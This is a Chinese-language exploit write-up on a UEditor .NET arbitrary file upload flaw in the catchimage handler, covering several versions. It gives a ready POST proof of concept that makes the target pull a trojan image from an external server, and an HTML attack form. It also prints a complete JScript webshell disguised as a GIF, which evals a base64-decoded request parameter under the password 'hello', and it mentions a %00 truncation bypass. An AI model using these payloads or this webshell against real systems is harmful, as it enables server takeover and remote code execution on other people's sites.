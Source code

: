 该漏洞是由于上传文件时，使用的 CrawlerHandler 类未对文件类型进行检验，导致了任意文件上传。1.4.3.3 和 1.5.0 版本利用方式稍有不同，1.4.3.3 需要一个能正确解析的域名。而 1.5.0 用 IP 和普通域名都可以。相对来说 1.5.0 版本更加容易触发此漏洞；而在 1.4.3.3 版本中攻击者需要提供一个正常的域名地址就可以绕过判断；

**(1) ueditor .1.5.0.net 版本**

首先 1.5.0 版本进行测试，需要先在外网服务器上传一个图片木马，比如: 1.jpg/1.gif/1.png 都可以，下面 x.x.x.x 是外网服务器地址，source[]参数值改为图片木马地址，并在结尾加上 “?.aspx” 即可 getshell，利用 POC：

```
POST /ueditor/net/controller.ashx?action=catchimage
source%5B%5D=http%3A%2F%2Fx.x.x.x/1.gif?.aspx
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbk4Y3IcSbIAophKib7xwQbyibdJ5fan1x0RZaHGGyh8kg6Q4KF0mC7FQeQ/640?wx_fmt=png)

**(2) ueditor.1.4.3.3 .net 版**

1. 本地构造一个 html，因为不是上传漏洞所以 enctype 不需要指定为 multipart/form-data， 之前见到有 poc 指定了这个值。完整的 poc 如下：

```
<form action="http://xxxxxxxxx/ueditor/net/controller.ashx?action=catchimage" enctype="application/x-www-form-urlencoded"  method="POST">
  <p>shell addr: <input type="text" name="source[]" /></p >
  <input type="submit" value="Submit" />
</form>
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbk4Va0PIl0ic5mRKMmKHzhgkXoW668ewM8xaoic5PNAoYekWptK0mLXpNg/640?wx_fmt=png)

2. 需准备一个图片马儿，远程 shell 地址需要指定扩展名为 1.gif?.aspx，1.gif 图片木马（一句话木马：密码：hello）如下：

```
GIF89a
<script runat="server" language="JScript">
   function popup(str) {
       var q = "u";
       var w = "afe";
       var a = q + "ns" + w; var b= eval(str,a); return(b);
  }
</script>
<% popup(popup(System.Text.Encoding.GetEncoding(65001). GetString(System.Convert.FromBase64String("UmVxdWVzdC5JdGVtWyJoZWxsbyJd")))); %>
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkPWnypcjGwhEV30uLxhk1icicHibDRXWlU82mtn8y8OMKYZI4zvLpNvQFw/640?wx_fmt=png)

成功后，会返回马儿地址。

**(3) ueditor.1.3.6 .net1 版本**

使用 %00 截断的方式上传绕过

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbkibEK5Tka6t7eZfYh9ADbYp42A1Z9daiavTZiaeMm9DicibjRSUUYuWQW1iaA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbksRHq6MUe8I0GpUzVv5olQsI9AFlFH2pBdrTN65beoRFjRzG51HHFoQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdArTQpjtMd0NiaDfRGyibXbktib7nEGKLl01icgxmibKsbgCaFeiatm7stcfmibhaHDvAyN4ibhzskia33tdg/640?wx_fmt=png)
